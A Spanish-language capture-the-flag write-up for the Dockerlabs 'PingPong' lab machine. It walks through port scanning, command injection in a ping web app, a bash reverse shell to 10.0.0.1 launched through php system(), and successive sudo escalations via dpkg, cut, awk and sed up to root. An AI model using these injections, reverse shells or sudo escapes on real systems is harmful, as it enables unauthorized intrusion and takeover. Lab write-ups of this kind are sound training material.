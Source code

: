 # PingPong

Máquina vulnerable en modo **medium** de Dockerlabs.

---

## 🔎 Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

---

## 📡 Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **80** abierto (Apache)
- Puerto **443** abierto (Apache)
- Puerto **5000** abierto corriendo una aplicación en Python (Werkzeug).

![Scan1](https://i.imgur.com/racpOYG.png)

---

## 📂 Enumeración

Se hizo una revisión de los puertos **80** y **433** en el navegador pero los servidores no suministraron información relevante.

![Scan1](https://i.imgur.com/LbGgKHD.png)
![Scan1](https://i.imgur.com/YS628ZP.png)

El siguiente paso fue buscar directorios y recursos ocultos con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado no arrojó muchos directorios, se inspeccionó el `machine.php` pero tampoco mostró nada relevante.

![Gobuster](https://i.imgur.com/JJOzxTm.png)
![Machine](https://i.imgur.com/yod5G0O.png)

Se pasó al puerto **5000** donde se hayó una aplicación para realizar pings a hosts pasados por medio de un input HTML, al parecer no sanitizado. Debido a esto se realizaron pruebas de **Command injection** para así conseguir obtener información de la máquina.

![Werkzeug1](https://i.imgur.com/37eesfV.png)
![Werkzeug1](https://i.imgur.com/MY85DKb.png)

---

## 💥 Explotación

Gracias a que los resultados fueron positivos, se implementó una reverse shell con bash para conectar a la terminal.

![Werkzeug1](https://i.imgur.com/s6zQY5h.png)  
![Werkzeug2](https://i.imgur.com/sW9IsW7.png)

---

## 🔝 Escalación de privilegios

Después de implementar la reverse shell se analizó el entorno para validar cómo conseguir la escalada de privilegios.

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/PPXa0is.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/dpkg` se puede ejecutar con el usuario `bobby`, lo que sugiere un movimiento lateral. En [GTFObins](https://gtfobins.github.io/gtfobins/dpkg/#sudo) podemos observar cómo ejecutar el dpkg.

Efectuamos ajustes en nuestro términal para evitar errores de list al ejecutar los comandos:

```
- script /dev/null -c bash
- stty raw -echo; fg
	reset xterm
- CTRL + z para pasarla background
- export TERM=xterm
- export SHELL=bash
- stty rows 47 colums 189
```

Al ejecutar los comandos para usar el dpkg:

```bash
sudo -u bobby /usr/bin/dpkg -l
```

![dpkg](https://i.imgur.com/YaJalta.png)
![dpkg](https://i.imgur.com/VKCKnWA.png)

Conseguido el usuario `bobby` Se repite el mismo proceso de comprobación de binarios y obtenemos lo siguiente para usuario `gladys`

![dpkg](https://i.imgur.com/3JNwdWo.png)

Se ejecuta el CMD en php para ejecutar otra reverse shell y conectarnos a `gladys`

`CMD='/bin/bash -c \ 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1\'`
`sudo -u gladys /usr/bin/php -r "system('$CMD');"`

Con esto pasamos al usuario `gladys` nuevamente se vuelve a repetir el proceso de comprobación, siempre utilizando searchbins o GTFObins en este caso el de [cut](https://gtfobins.github.io/gtfobins/cut/#sudo). Al revisar el directorio `/opt/` se encontró una flag que se utilizó para pasar al siguiente usuario `chocolatito`.

![dpkg](https://i.imgur.com/Iuf675b.png)

Obteniendo el usuario de `chocolatito` se vuelve a comprobar y se buscan nuevos binarios, en este caso es [awk](https://gtfobins.github.io/gtfobins/awk/#sudo). Que nos permite pasar al siguiente usuario que es `theboss`

![dpkg](https://i.imgur.com/ZeyEw1O.png)

Utilizando el método de comprobación como las veces anteriores, se descubre que este usuario en particular puede dar vía libre al root por medio de [sed](https://gtfobins.github.io/gtfobins/sed/#sudo).

![dpkg](https://i.imgur.com/ItDzxDz.png)

Y es con esto que después de realizar tantos movimientos laterales, se consigue escalar al root.
